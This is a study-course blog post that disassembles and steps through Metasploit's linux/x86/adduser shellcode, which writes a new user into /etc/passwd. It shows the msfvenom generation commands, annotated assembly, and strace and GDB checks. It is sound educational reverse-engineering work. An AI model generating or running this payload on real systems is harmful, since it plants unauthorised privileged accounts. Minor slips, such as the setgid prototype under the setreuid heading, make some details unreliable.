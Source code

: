 ```yaml
---
layout: post
title: SLAE Exercise 5 (part 3) - Add User
subtitle: Shellcode Analysis 3 - Add User
tags: [SLAE]
---
```


linux/x86/adduser
======

The final chosen shellcode to be used from msfvenom is the 'adduser' payload. This adds a user to the system that it is executed on. The parameters to be used for this payload can be seen with the following command:

    msfvenom -p linux/x86/adduser --payload-options
	
From this it can be seen that there are two required payloads:

![payloadoptions](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/payloadoptions.png)

To keep things simple, these default options will be left, which should create the user with the username and password of 'metasploit'. The command that is used to create a payload that will create the new user is as below:

	msfvenom -p linux/x86/adduser  -f raw > adduserraw

Once this has been generated it can be disassembled using ndisasm to analyse the instructions used with the following command:

	ndisasm -b 32 ./adduserraw

![ndisasm](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/ndisasm.png)


Stepping through the instructions
------

Each of the instructions seen here will be stepped through, describing what is happening at each step. 

**Setreuid**

int setgid(gid_t gid);

The 'setreuid' syscall sets the real and/or effective user or group ID of the calling process. As both values set are 0 the running process will have permissions to modify the 'passwd' file. 

```
Xor ecx, ecx - Clears the ecx register.

Mov ebx, ecx - Move 0 to the ebx register, clearing it.

Push byte +0x46 -	Pushes 70 to the stack.

Pop eax	Pop 70 from the stack into eax for the syscall 'setreuid'

Int 0x80 - An interupt which will call 'setreuid'.
```

**Open**

int open(const char *pathname, int flags, mode_t mode);

For this shellcode, the 'open' syscall is used to open the file that is to be written to in order to add the new user. This is the 'passwd' file found at '/etc/passwd. This can be seen in the below instructions pushed to the stack and then pointed to by ebx: 

```
Push byte +0x5 - Push 5 to the stack.

Pop eax - Pop 5 from the stack into eax for the 'open' syscall.

Xor ecx, ecx - Clear the ecx register.

Push ecx - Push 0 to the stack from the cleared ecx register.

Push dword 0x64777373 - These instructions push '/etc//passwd' to the stack.
Push dword 0x61702f2f	
Push dword 0x6374652f	

Mov ebx, esp - Move the stack pointer into ebx to be a pointer to the pathname to open.

Inc ecx - Increment ecx to be 1.

Mov ch, 0x4 - Move 4 to ch.

Int 0x80 - Interupt to call the 'open' syscall
```

**Write**
ssize_t write(int fd, const void *buf, size_t count);

The 'write' syscall is used to add the new user to the file that was opened previously. This is done using the returned file descriptor. The call value couldn't be completely observed within the disassembled code obtained from Ndisasm previosuly. From debugging the shellcode with GDB the following instuctions could be observed:

![writeinstructions](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/realinstructions.png)

```
Xchg ebx, eax - Move the return value of the 'open' syscall into ebx. The return value is the file descriptor.

Call 0x80480a7 - Call 0x80480a7, which will start from the instruction 'pop ecx'. This is used as a call-pop to get the address of the value required onto the stack.

Insd - The following contain the value that is pointed to from using 'call', and so hold no significance as instructions. 
Gs jz 0x90	
Jnc 0xa1	
Insb	
Outsd	
Imul esi, [edx+edi+0x41], dword 0x49642f7a	
Jnc 0xa7	
Xor al, 0x70	
Xor al, 0x49	
Push edx	
Arpl [edx], di	
Xor [edx], bh	
Xor [edx], bh	
Cmp ch, [edi]	
Cmp ch, [edi]	
Bound ebp, [ecx+0x6e]	
Das	
Jnc 0xba	
Or bl, [ecx-0x75]	

pop ecx	- Move the pointer from 'call' into ecx for the required *buf parameter. 

mov edx, DWORD PTR [ecx-0x4] - Move the required count into edx, this call writes up to 'count' bytes from the buffer sepcified in ecx.

push 0x4 - Push 4 to the stack.

pop 0x4 - Pop 4 to eax to be used for the syscall 'write'.

Int 0x80 - Interupt to call the 'write' syscall.
```

**Exit**

The instructions for this section are as follows:

```
Push byte +0x1	Push 1 to the stack to be used for the exit syscall
Pop eax	Pop 1 to eax for the exit syscall
Int 0x80	Interupt calling the syscall to exit gracefully
```

Strace
------

Strace was utilised to observe the syscalls used and the parameters. The command used and screenshot of the output can be observed below:

    msfvenom -p linux/x86/adduser  -f elf > adduserelf

![Strace](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/strace.png)


GDB
------

To observe the shellcode executing within GDB, the elf payload created will be analysed. The command used to create this code is as follows:

    msfvenom -p linux/x86/adduser  -f elf > adduserelf

With the created payload, there are no symbols within the binary and so 'readelf' has to be used to find the entry point for the binary. This can be run as follows:

    Readelf --headers ./adduserelf

The output of this is as below:

![readelf](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/readelf.png)

As can be seen, the entrypoint in this instance would be the address '0x8048054'. This can now be observed within GDB when setting a breakpoint at this address and running the program:

![gdbinstructions](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/gdbinstructions.png)


**setreuid**

Just before the first syscall for 'setreuid', the registers were examined to determine if they were as would be expected from the earlier analysis:

![setreuid](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/setreuidregisters.png)


**Open**

As part of the 'open' syscall 3 values are pushed to the stack which are subsequently pointed to within the ebx register. The instructions can be seen below:

![openpush](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/openpush.png)

Once these have been pushed to the stack, the values can be observed:

![etcpasswd](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/etcpasswd.png)

It is clear that '/etc//passwd' is pushed to the stack to be pointed to within ebx to be the file that will be written to. This is where the new user will be inserted. 

Interestingly here, 0x4 is moved into ch to change the value of ecx from 0x1 (1) to 0x401 (1025). This is for the 'flags' parameter of the syscall. The values of the registers before the syscall is called can also be observed within this screenshot. Note that the value of ebx is the same as esp and is pointing to the  '/etc//passwd' value discussed before:

![flags](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/flags.png)


**Write**

The values of the registers before the next syscall 'write' are observed. The value in ebx is the file descriptor that was returned from the 'open' syscall, the ecx register will be discussed below, and the edx register contains the size to be written. This wasn't seen in the Ndisasm dissasembly and within GDB used the following instruction to get the required size:

    Mov edx, DWORD PTR [ecx-0x4]
	
The value pointed to within ecx is the pointer that was pushed to the stack when 'call' was used. It can be seen that this contains the values to write to the opened file:

![examineecx](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/writepointer.png)

The values in the register before the syscall:

![writeregisters](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/writesyscall.png)


**Exit**

The rest of the shellcode gracefully exits the program which will not require walking through. 


